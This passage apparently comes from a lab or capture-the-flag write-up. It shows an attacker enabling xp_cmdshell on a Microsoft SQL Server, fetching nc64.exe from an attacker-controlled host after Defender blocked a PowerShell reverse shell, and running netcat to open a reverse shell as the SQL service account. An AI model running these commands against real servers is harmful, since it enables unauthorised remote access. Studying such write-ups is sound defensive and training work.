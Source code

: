 <img src="attachments/8933d14963ec51cf52fdb62e0bd9023c.png" />

```
EXECUTE sp_configure 'show advanced options', 1
RECONFIGURE
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE
```

Trying to execute a simple PowerShell reverse shell failed as Defender flagged it as malicious.

<img src="attachments/95fe5686e15b39e6cbba84b22088173f.png" />

We transferred the `nc64.exe` binary to the machine.

```
xp_cmdshell powershell -c "wget -usebasicparsing http://10.8.4.157:8888/nc64.exe -o C:\Windows\Temp\nc64.exe"
```

We executed the command to connect to Netcat.

```
xp_cmdshell powershell -c "C:\Windows\Temp\nc64.exe -e cmd 10.8.4.157 1234"
```

After that, we got the reverse shell as `breach\svc_mssql`.

<img src="attachments/a08d63d2b94c2871d9e2e40a2a822860.png" />

---